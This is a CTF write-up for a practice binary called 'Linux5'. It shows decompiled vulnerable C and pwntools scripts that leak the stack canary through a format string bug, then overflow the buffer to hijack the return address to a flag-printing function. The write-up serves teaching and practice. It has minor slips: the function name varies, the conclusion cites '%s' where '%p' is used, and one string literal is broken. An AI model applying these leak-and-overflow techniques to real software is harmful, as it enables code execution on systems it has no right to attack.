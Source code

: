 # Linux5 CTF Writeup

## Challenge Overview

This challenge introduces two key concepts: stack canary protection and return address control. The goal is to leak the stack canary value using a format string vulnerability, then craft a payload that bypasses this protection and redirects execution flow to a  win() function.

## Analysis

At the start, the binary prompts the user with:
```
I want a cookie!
```

This is followed by an input opportunity, which is vulnerable to a format string attack. The stack canary is located at a known offset and can be leaked using the `%p` format specifier. A second input is then requested:
```
Give me another one!
```

At this point, a buffer overflow can be triggered, but it must respect the canary to avoid triggering a stack smashing detection (`__stack_chk_fail`).

---
### Key Code Analysis

```c
void gate(void)

{
  long in_FS_OFFSET;
  char local_58 [72];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("Canary on guards shoulder: Gwaaaa! I want a cookie!");
  gets(local_58);
  printf(local_58);
  puts("\nCanary on guards shoulder: Gwaaaa! Give me another one!");
  gets(local_58);
  puts("The canary died from poison, the guard attacks you!");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
This binary uses:

- A buffer with a stack canary
- A call to `gets()` that allows overflowing the buffer
- A `vault` function that prints the flag, reachable only via return address hijacking


## Exploitation and Payload Strategy

The exploit is performed in two phases:

### Phase 1: Leak the Canary
Use the format string vulnerability to leak the canary at position 37 on the stack:

```python
from pwn import *

p = process('./linux5')

payload_canary_leak = b'%p' * 100
p.recvuntil(b'I want a cookie!')
p.sendline(payload_canary_leak)
p.interactive()
```

### Phase 2: Bypass Canary and Call Win

Use the exact leaked canary to craft a payload that bypasses stack protection and hijacks the return address:

```python
from pwn import *

win_addr = 0x004006b7
canary_offset = 72

p = process('./linux5')

# Step 1: Leak canary
p.recvuntil(b'I want a cookie!
')
canary_leak = '%37$p'
p.sendline(canary_leak)
leak = p.recvline().strip()
print(f'leaked canary value: {leak}')

# Step 2: Convert and craft payload
canary = int(leak, 16)
payload = b'A' * canary_offset
payload += p64(canary)           # insert exact canary value
payload += b'BBBBBBBB'           # overwrite saved RBP or padding
payload += p64(win_addr)         # overwrite return address

# Step 3: Send payload
p.recvuntil(b'Give me another one!')
p.sendline(payload)
p.interactive()
```

## Result and Solution

Upon running the full exploit, the output of solve2 (main solve script) will show:
```bash
┌──(kali㉿kali)-[~/linux_challenges/linux5]
└─$ /bin/python /home/kali/linux_challenges/linux5/solve2.py
[+] Starting local process './linux5': pid 61255
/home/kali/linux_challenges/linux5/solve2.py:12: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(canary_leak)
leaked canary value: b'0x40cf11f100202a00'
[*] Switching to interactive mode

The canary died from poison, the guard attacks you!
flag_(this_is_your_flag_if_you_
[*] Got EOF while reading in interactive
$  
```

This confirms that the return address was successfully hijacked, and the vault function was executed.

## Conclusion and Lessons

This challenge demonstrates the danger of format string vulnerabilities, especially when combined with unsafe input handling. By abusing the `%s` format specifier, which dereferences a pointer, we can leak secrets stored in memory and use them to bypass logic check

## References
- ![alt text](/img/image-8.png)
- ![alt text](/img/image-9.png)
- ![alt text](/img/image-10.png)